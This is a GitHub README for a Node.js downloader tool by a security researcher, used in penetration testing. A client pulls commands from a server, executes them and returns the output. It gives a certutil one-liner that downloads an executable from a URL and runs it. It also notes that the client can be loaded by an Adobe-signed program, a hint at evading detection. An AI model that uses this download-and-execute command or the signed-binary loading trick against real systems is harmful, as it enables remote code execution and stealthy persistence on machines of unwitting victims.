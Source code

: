 # Nodejs-Downloader
An example of a downloader written in NodeJS.

Author:3gstudent

#### Usage:

1. Download the NodeJS:

https://nodejs.org/en/download/

You just need node.exe in the file.

2. Set the command sent to the client:

Edit the Server.js

eg.

`var command = 'certutil -urlcache -split -f https://github.com/3gstudent/test/raw/master/putty.exe c:\\a.exe&&c:\\a.exe';`

3. Start the server

```
node.exe Server.js
```

When you use a browser to access it, you will return 404.

4. Start the client

```
node.exe Client.js
```

It will connect to the server and get the command, then execute the command and send the result again.

Client.js can be loaded by a program with a digital signature of Adobe Systems Incorporated.

![Alt text](https://github.com/3gstudent/NodeJS-Downloader/blob/master/1.png?raw=true)

Reference:

https://bbs.pediy.com/thread-249573.htm


More details:

《渗透测试中的Node.js》[Coming soon]

